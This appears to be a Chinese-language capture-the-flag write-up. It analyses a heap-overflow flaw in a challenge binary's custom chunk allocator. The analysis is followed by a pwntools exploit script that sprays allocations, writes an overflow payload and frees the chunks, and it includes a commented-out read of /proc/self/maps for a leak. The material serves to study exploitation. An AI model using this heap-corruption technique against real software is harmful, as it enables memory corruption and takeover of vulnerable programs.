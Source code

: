 首先会根据`next_use_chunk`找到一个size大于等于`up_align_16_size`的use\_chunk\_ptr，如果找到的use\_chunk\_ptr就是当前的next\_use\_chunk\_ptr 一开始的（第一个可以被使用的chunk），就会直接更新`next_use_chunk_ptr = v5->next_use_chunk;`，并且会根据`v5->size >= (unsigned __int64)(up_align_16_size + 16LL)`size是否大于等于当前chunk的总长度来决定是否要分割（大于等于意味着分为后至少还有剩余的0x10部分可以作为chunk\_header），如果只满足size大于等于`up_align_16_size`此时会迭代`next_use_chunk_ptr = v5->next_use_chunk;`（不能分割，说明当前正好合适）

由于最高next\_use\_chunk的size是剩余长度，而不是buff长度，而原来比较都是buffer长度，所以会将剩余长度认为是buffer长度，当剩余长度为0x10,此时如果分配0x20会溢出0x10个字节

注意分配的size是输入的`len+0x10& 0xFFFFFFF0`,然后输入内容的长度是`len+1`,这样输入的内容只能填溢出的那一个字节，但通过`len=0x xxxf`可以避免

exp
---

```python
from pwn import *

p=process("./main")

context(os="linux",arch="amd64",log_level="debug")
p.sendlineafter(b"Choose an option: ",str(2))
p.sendlineafter(b"Username: ",b"llk") 
p.sendlineafter(b"Password: ",b"1010") 

p.sendlineafter(b"Choose an option: ",str(1))
p.sendlineafter(b"Username: ",b"llk") 
p.sendlineafter(b"Password: ",b"1010") 

def add(length,content):
    p.sendlineafter(b"Choose an option: ",str(1))
    p.sendlineafter(b"Enter string length: ",str(length)) 
    p.sendlineafter(b"Enter a string: ",content) 

def dele(index):
    p.sendlineafter(b"Choose an option:",str(2))
    p.sendlineafter(b"Enter the index of the string to delete: ",str(index)) 

def show():
    p.sendlineafter(b"Choose an option:",str(3))

def save(filename):
    p.sendlineafter(b"Choose an option:",str(4))
    p.sendlineafter(b"Enter the filename: ",filename) 

def load(filename):
    p.sendlineafter(b"Choose an option:",str(5))
    p.sendlineafter(b"Enter the filename: ",filename) 

# load("/proc/self/maps")
# show()
# leak=p.recv(timeout=2)
# print("[+] leak------------------------")

for i in range(191):
    add((int("0xe0", 16)),"llk")

# gdb.attach(p)

add((int("0x7f", 16)),0x70*b"a"+p32(0)+p32(1)+p32(59)+p32(3))

# pause()

for i in range(191):
    dele(i)

```